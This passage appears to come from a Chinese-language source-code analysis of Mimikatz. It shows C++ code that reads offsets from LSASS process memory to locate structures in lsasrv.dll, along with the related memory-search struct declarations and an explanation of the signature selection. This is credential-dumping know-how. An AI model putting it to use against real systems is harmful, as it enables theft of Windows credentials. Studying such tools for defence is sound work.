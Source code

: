 ```c++
            if(genericPtr1)
            {
                aLsassMemory.address = (PBYTE) sMemory.result + currentReference-&gt;Offsets.off1;
            #if defined(_M_ARM64)
                // ......
            #elif defined(_M_X64)
                aLocalMemory.address = &amp;offset;
                if(pLib-&gt;isInit = kull_m_memory_copy(&amp;aLocalMemory, &amp;aLsassMemory, sizeof(LONG)))
                    *genericPtr1 = ((PBYTE) aLsassMemory.address + sizeof(LONG) + offset);
            #elif defined(_M_IX86)
                // ......
            #endif
            }

            if(genericPtr2)
            {
                aLsassMemory.address = (PBYTE) sMemory.result + currentReference-&gt;Offsets.off2;
            #if defined(_M_ARM64)
                // ......
            #elif defined(_M_X64)
                aLocalMemory.address = &amp;offset;
                if(pLib-&gt;isInit = kull_m_memory_copy(&amp;aLocalMemory, &amp;aLsassMemory, sizeof(LONG)))
                    *genericPtr2 = ((PBYTE) aLsassMemory.address + sizeof(LONG) + offset);
            #elif defined(_M_IX86)
                // ......
            #endif
            }
        }
    }
    return pLib-&gt;isInit;
}
```

首先，`kull_m_patch_getGenericFromBuild()` 函数根据 `cLsass-&gt;osContext.BuildNumber` 中的版本号选择 `LsaSrvReferences` 中适用于当前系统版本的特征码条目。选出来的 `currentReference-&gt;Search.Pattern` 赋给 `aLocalMemory.address` 后，将 `&amp;aLocalMemory` 连同 `&amp;sMemory` 传入 `kull_m_memory_search()` 函数。其中 `sMemory` 是一个 `KULL_M_MEMORY_SEARCH` 结构体，用于临时保存 lsasrv.dll 模块的基地址和映像大小，其声明如下。

```c++
typedef struct _KULL_M_MEMORY_SEARCH {
    KULL_M_MEMORY_RANGE kull_m_memoryRange;
    LPVOID result;
} KULL_M_MEMORY_SEARCH, *PKULL_M_MEMORY_SEARCH;

typedef struct _KULL_M_MEMORY_RANGE {
    KULL_M_MEMORY_ADDRESS kull_m_memoryAdress;
    SIZE_T size;
} KULL_M_MEMORY_RANGE, *PKULL_M_MEMORY_RANGE;

typedef struct _KULL_M_MEMORY_ADDRESS {
    LPVOID address;
    PKULL_M_MEMORY_HANDLE hMemory;
} KULL_M_MEMORY_ADDRESS, *PKULL_M_MEMORY_ADDRESS;
```
